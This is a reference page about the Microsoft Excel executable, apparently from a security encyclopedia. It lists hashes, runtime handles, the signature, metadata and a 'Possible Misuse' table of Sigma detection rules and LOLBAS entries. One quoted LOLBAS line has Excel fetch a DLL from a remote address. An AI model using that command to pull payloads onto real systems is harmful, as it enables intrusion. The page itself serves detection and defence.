


---
title: EXCEL.EXE | Microsoft Excel
excerpt: What is EXCEL.EXE?
---

# EXCEL.EXE 

* File Path: `C:\Program Files (x86)\Microsoft Office\root\Office16\EXCEL.EXE`
* Description: Microsoft Excel

## Screenshot

## Hashes

Type | Hash
-- | --
MD5 | `3003BFEBF21C97DEA1FAC436BABCCFFA`
SHA1 | `1319B94DB6992691A918829373E9F5139EADEE52`
SHA256 | `00D8FCDB9E2B315BFFF3D16FFB2F50ED55A64A84BF2F0E1127BD476ADD58705F`
SHA384 | `229CA2807347AFB0D882C55CE00021600A4E046AA835E670CACF5B3C1F7B29611851549A8F5FD579AE74DB22F358F944`
SHA512 | `B2339CC34E1C45034E3776D007E6BA5F1B94DE8B1827008FBC14F1A7AF7E506B2952098E033B62B9BCAA931D29F51CB72D44064F8AFDC5A26231B52C448B065A`
SSDEEP | `786432:FL3CjxyO885kaEYAg4HV9N/+DJtste99aOjg7zznUikcvKzGri:FLSFyO885kaEYP4HVb+DJtstefa6g7cK`
IMP | `0EDEE5E175F78644C9182A41C9B960D8`
PESHA1 | `E72B55B473D77B4FAE8A45EFD3FDDE3320487491`
PE256 | `C5DA3915FA28081E6738DE32E88634E543B843DAE73D726B438DADC1DC429033`

## Runtime Data

### Window Title:
Excel (Read Only)

### Open Handles:

Path | Type
-- | --
(R--)   C:\ProgramData\Microsoft\Office\ClickToRunPackageLocker | File
(R-D)   C:\Windows\Fonts\StaticCache.dat | File
(R-D)   C:\Windows\System32\en-US\crypt32.dll.mui | File
(R-D)   C:\Windows\System32\en-US\d2d1.dll.mui | File
(R-D)   C:\Windows\System32\en-US\dnsapi.dll.mui | File
(R-D)   C:\Windows\System32\en-US\KernelBase.dll.mui | File
(R-D)   C:\Windows\System32\en-US\mswsock.dll.mui | File
(R-D)   C:\Windows\System32\en-US\propsys.dll.mui | File
(R-D)   C:\Windows\System32\en-US\Windows.Security.Authentication.Web.Core.dll.mui | File
(R-D)   C:\Windows\System32\en-US\winnlsres.dll.mui | File
(R-D)   C:\Windows\SystemResources\imageres.dll.mun | File
(R-D)   C:\Windows\SysWOW64\en-US\user32.dll.mui | File
(RW-)   C:\Users\user\Documents | File
(RW-)   C:\Windows | File
(RW-)   C:\Windows\WinSxS\x86_microsoft.windows.common-controls_6595b64144ccf1df_6.0.19041.488_none_11b1e5df2ffd8627 | File
(RW-)   C:\Windows\WinSxS\x86_microsoft.windows.gdiplus_6595b64144ccf1df_1.1.19041.508_none_429cdbca8a8ffa94 | File
(RWD)   C:\Windows\Fonts | File
(RWD)   C:\Windows\Fonts\segoeui.ttf | File
\BaseNamedObjects\__ComCatalogCache__ | Section
\BaseNamedObjects\C:\*ProgramData\*Microsoft\*Windows\*Caches\*{6AF0698E-D558-4F6E-9B3C-3716689AF493}.2.ver0x000000000000000a.db | Section
\BaseNamedObjects\C:\*ProgramData\*Microsoft\*Windows\*Caches\*{DDF571F2-BE98-426D-8288-1A9A39C3FDA2}.2.ver0x0000000000000002.db | Section
\BaseNamedObjects\C:\*ProgramData\*Microsoft\*Windows\*Caches\*cversions.2 | Section
\BaseNamedObjects\F932B6C7-3A20-46A0-B8A0-8894AA421973 | Section
\BaseNamedObjects\NLS_CodePage_1252_3_2_0_0 | Section
\BaseNamedObjects\NLS_CodePage_437_3_2_0_0 | Section
\BaseNamedObjects\windows_shell_global_counters | Section
\Sessions\1\BaseNamedObjects\10FM_ACB_S-1-5-5-0-257318 | Section
\Sessions\1\BaseNamedObjects\10FM_ACBBD_S-1-5-5-0-257318 | Section
\Sessions\1\BaseNamedObjects\1958HWNDInterface:75031c | Section
\Sessions\1\BaseNamedObjects\UrlZonesSM_user | Section
\Sessions\1\BaseNamedObjects\windows_shell_global_counters | Section
\Sessions\1\BaseNamedObjects\windows_webcache_counters_{9B6AB5B3-91BC-4097-835C-EA2DEC95E9CC}_S-1-5-21-2047949552-857980807-821054962-504 | Section
\Sessions\1\Windows\Theme64749523 | Section
\Windows\Theme1120315852 | Section

### Loaded Modules:

Path |
-- |
C:\Program Files (x86)\Microsoft Office\root\Office16\EXCEL.EXE |
C:\Windows\SYSTEM32\ntdll.dll |
C:\Windows\System32\wow64.dll |
C:\Windows\System32\wow64cpu.dll |
C:\Windows\System32\wow64win.dll |

## Signature

* Status: Signature verified.
* Serial: `33000002CE7C9ACE7D905ED2B70000000002CE`
* Thumbprint: `B10607FB914700B40F794610850C1DE0A21566C1`
* Issuer: CN=Microsoft Code Signing PCA 2010, O=Microsoft Corporation, L=Redmond, S=Washington, C=US
* Subject: CN=Microsoft Corporation, O=Microsoft Corporation, L=Redmond, S=Washington, C=US

## File Metadata

* Original Filename: Excel.exe
* Product Name: Microsoft Office
* Company Name: Microsoft Corporation
* File Version: 16.0.12527.20482
* Product Version: 16.0.12527.20482
* Language: Language Neutral
* Legal Copyright: 
* Machine Type: 32-bit

## File Scan

* VirusTotal Detections: 0/70
* VirusTotal Link: https://www.virustotal.com/gui/file/00d8fcdb9e2b315bfff3d16ffb2f50ed55a64a84bf2f0e1127bd476add58705f/detection/

## Possible Misuse

*The following table contains possible examples of `EXCEL.EXE` being misused. While `EXCEL.EXE` is **not** inherently malicious, its legitimate functionality can be abused for malicious purposes.*

Source | Source File | Example | License
-- | -- | -- | --
[sigma](https://github.com/Neo23x0/sigma) | [godmode_sigma_rule.yml](https://github.com/Neo23x0/sigma/blob/master/other/godmode_sigma_rule.yml) | `- '\EXCEL.EXE'`{:.highlight .language-yaml} | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [sysmon_cactustorch.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/create_remote_thread/sysmon_cactustorch.yml) | `- '\excel.exe'`{:.highlight .language-yaml} | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [sysmon_suspicious_remote_thread.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/create_remote_thread/sysmon_suspicious_remote_thread.yml) | `- '\excel.exe'`{:.highlight .language-yaml} | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [file_event_executable_and_script_creation_by_office_using_file_ext.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/file_event/file_event_executable_and_script_creation_by_office_using_file_ext.yml) | `- 'excel.exe'`{:.highlight .language-yaml} | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [file_event_script_creation_by_office_using_file_ext.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/file_event/file_event_script_creation_by_office_using_file_ext.yml) | `- 'excel.exe'`{:.highlight .language-yaml} | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [sysmon_suspicious_dbghelp_dbgcore_load.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/image_load/sysmon_suspicious_dbghelp_dbgcore_load.yml) | `- '\excel.exe'`{:.highlight .language-yaml} | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [sysmon_susp_office_dotnet_assembly_dll_load.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/image_load/sysmon_susp_office_dotnet_assembly_dll_load.yml) | `- '\excel.exe'`{:.highlight .language-yaml} | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [sysmon_susp_office_dotnet_clr_dll_load.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/image_load/sysmon_susp_office_dotnet_clr_dll_load.yml) | `- '\excel.exe'`{:.highlight .language-yaml} | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [sysmon_susp_office_dotnet_gac_dll_load.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/image_load/sysmon_susp_office_dotnet_gac_dll_load.yml) | `- '\excel.exe'`{:.highlight .language-yaml} | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [sysmon_susp_office_dsparse_dll_load.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/image_load/sysmon_susp_office_dsparse_dll_load.yml) | `- '\excel.exe'`{:.highlight .language-yaml} | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [sysmon_susp_office_kerberos_dll_load.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/image_load/sysmon_susp_office_kerberos_dll_load.yml) | `- '\excel.exe'`{:.highlight .language-yaml} | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [sysmon_susp_winword_vbadll_load.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/image_load/sysmon_susp_winword_vbadll_load.yml) | `- '\excel.exe'`{:.highlight .language-yaml} | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [sysmon_susp_winword_wmidll_load.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/image_load/sysmon_susp_winword_wmidll_load.yml) | `- '\excel.exe'`{:.highlight .language-yaml} | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [process_creation_command_execution_by_office_applications.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/process_creation_command_execution_by_office_applications.yml) | `- '\excel.exe'`{:.highlight .language-yaml} | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [process_creation_lolbins_by_office_applications.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/process_creation_lolbins_by_office_applications.yml) | `- excel.exe`{:.highlight .language-yaml} | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [process_creation_office_applications_spawning_wmi_commandline.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/process_creation_office_applications_spawning_wmi_commandline.yml) | `- excel.exe`{:.highlight .language-yaml} | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [process_creation_office_from_proxy_executing_regsvr32_payload.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/process_creation_office_from_proxy_executing_regsvr32_payload.yml) | `- excel.exe`{:.highlight .language-yaml} | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [process_creation_office_from_proxy_executing_regsvr32_payload2.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/process_creation_office_from_proxy_executing_regsvr32_payload2.yml) | `- excel.exe`{:.highlight .language-yaml} | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [process_creation_office_spawning_wmi_commandline.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/process_creation_office_spawning_wmi_commandline.yml) | `- excel.exe`{:.highlight .language-yaml} | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [sysmon_apt_muddywater_dnstunnel.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/sysmon_apt_muddywater_dnstunnel.yml) | `- '\excel.exe'`{:.highlight .language-yaml} | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_office_shell.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_office_shell.yml) | `- '\EXCEL.EXE'`{:.highlight .language-yaml} | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_office_spawn_exe_from_users_directory.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_office_spawn_exe_from_users_directory.yml) | `- '\EXCEL.EXE'`{:.highlight .language-yaml} | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_susp_control_cve_2021_40444.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_susp_control_cve_2021_40444.yml) | `- '\excel.exe'`{:.highlight .language-yaml} | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_susp_msoffice.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_susp_msoffice.yml) | `- '\excel.exe'`{:.highlight .language-yaml} | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_susp_powershell_parent_process.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_susp_powershell_parent_process.yml) | `- '\excel.exe'`{:.highlight .language-yaml} | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_susp_regsvr32_anomalies.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_susp_regsvr32_anomalies.yml) | `Image\|endswith: '\EXCEL.EXE'`{:.highlight .language-yaml} | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Excel.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OtherMSBinaries/Excel.yml) | `Name: Excel.exe`{:.highlight .language-yaml} | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Excel.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OtherMSBinaries/Excel.yml) | `- Command: Excel.exe http://192.168.1.10/TeamsAddinLoader.dll`{:.highlight .language-yaml} | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Excel.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OtherMSBinaries/Excel.yml) | `- Path: C:\Program Files (x86)\Microsoft Office 16\ClientX86\Root\Office16\Excel.exe`{:.highlight .language-yaml} | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Excel.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OtherMSBinaries/Excel.yml) | `- Path: C:\Program Files\Microsoft Office 16\ClientX64\Root\Office16\Excel.exe`{:.highlight .language-yaml} | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Excel.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OtherMSBinaries/Excel.yml) | `- Path: C:\Program Files (x86)\Microsoft Office\Office16\Excel.exe`{:.highlight .language-yaml} | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Excel.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OtherMSBinaries/Excel.yml) | `- Path: C:\Program Files\Microsoft Office\Office16\Excel.exe`{:.highlight .language-yaml} | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Excel.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OtherMSBinaries/Excel.yml) | `- Path: C:\Program Files (x86)\Microsoft Office 15\ClientX86\Root\Office15\Excel.exe`{:.highlight .language-yaml} | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Excel.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OtherMSBinaries/Excel.yml) | `- Path: C:\Program Files\Microsoft Office 15\ClientX64\Root\Office15\Excel.exe`{:.highlight .language-yaml} | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Excel.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OtherMSBinaries/Excel.yml) | `- Path: C:\Program Files (x86)\Microsoft Office\Office15\Excel.exe`{:.highlight .language-yaml} | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Excel.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OtherMSBinaries/Excel.yml) | `- Path: C:\Program Files\Microsoft Office\Office15\Excel.exe`{:.highlight .language-yaml} | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Excel.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OtherMSBinaries/Excel.yml) | `- Path: C:\Program Files (x86)\Microsoft Office 14\ClientX86\Root\Office14\Excel.exe`{:.highlight .language-yaml} | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Excel.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OtherMSBinaries/Excel.yml) | `- Path: C:\Program Files\Microsoft Office 14\ClientX64\Root\Office14\Excel.exe`{:.highlight .language-yaml} | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Excel.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OtherMSBinaries/Excel.yml) | `- Path: C:\Program Files (x86)\Microsoft Office\Office14\Excel.exe`{:.highlight .language-yaml} | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Excel.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OtherMSBinaries/Excel.yml) | `- Path: C:\Program Files\Microsoft Office\Office14\Excel.exe`{:.highlight .language-yaml} | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Excel.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OtherMSBinaries/Excel.yml) | `- Path: C:\Program Files (x86)\Microsoft Office\Office12\Excel.exe`{:.highlight .language-yaml} | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Excel.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OtherMSBinaries/Excel.yml) | `- Path: C:\Program Files\Microsoft Office\Office12\Excel.exe`{:.highlight .language-yaml} | 

MIT License. Copyright (c) 2020-2021 Strontic.

